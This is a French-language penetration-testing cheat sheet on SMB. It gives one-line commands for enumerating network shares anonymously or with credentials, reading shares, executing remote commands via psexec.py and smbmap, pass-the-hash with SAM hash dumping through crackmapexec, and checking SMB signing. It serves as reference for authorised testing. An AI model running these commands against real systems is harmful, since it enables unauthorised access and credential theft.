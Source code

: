 # SMB

## Enumération des partages réseau

* Lister les partages réseau d'une machine de manière anonyme :

```
smbmap -d <DOMAIN.LOCAL> -u '' -p '' -H <IP>
```

```
smbmap -H <IP>
```

* Lister les partages réseau d'une machine avec des identifiants :

```
smbmap -u "username" -p "password" -H <IP>
```

```
smbmap -u "username" -p "<NT>:<LM>" -H <IP>
```

* Lister les partages réseau de machines hors d'un domaine :

```
cme smb <IP>/<MASK> -u <USER> -p <PASS> --shares
```

* Lister les partages réseau de machines présentent au sein d'un domaine :

```
smbclient -L //<IP> -U "<DOMAIN.LOCAL>/<USERS%<PASS>"
```

## Lecture d'un partage

```
smbmap -R <REPERTOIRE> -H <IP> -A <file> -q
```

```
smbclient \\\\<IP>\\<SHARE> -U "<DOMAIN.LOCAL>/<USER>%<PASS>"
```

`ls` : lister le contenu du répertoire.

`cd` : naviguer dans le répertoire.

`get` : télécharger un fichier localement.

**Note :** _il est également possible d'accéder aux partages via l'explorateur de fichier avec le protocole `smb://`._

## Exécuter des commandes système

Il est possible d'utiliser l'option `-x` de l'outil `smbmap` pour exécuter des commandes système.

## Connexion distante

* Avec des identifiants :

```
psexec.py <DOMAIN.LOCAL>/<USER>:<PASS>@<IP>
cme smb <IP> -u '<USER>' -p '<PASSWORD>' --local-auth
```

* Avec un _hash_ (Pass The Hash):

```
cme smb -u <USER> -H <HASH> --sam <IP>/<MASK>
```

**Note :** _l'utilisateur doit disposer des droits "Administrateur local"._

## Signatures SMB

```
cme smb <IP>
```
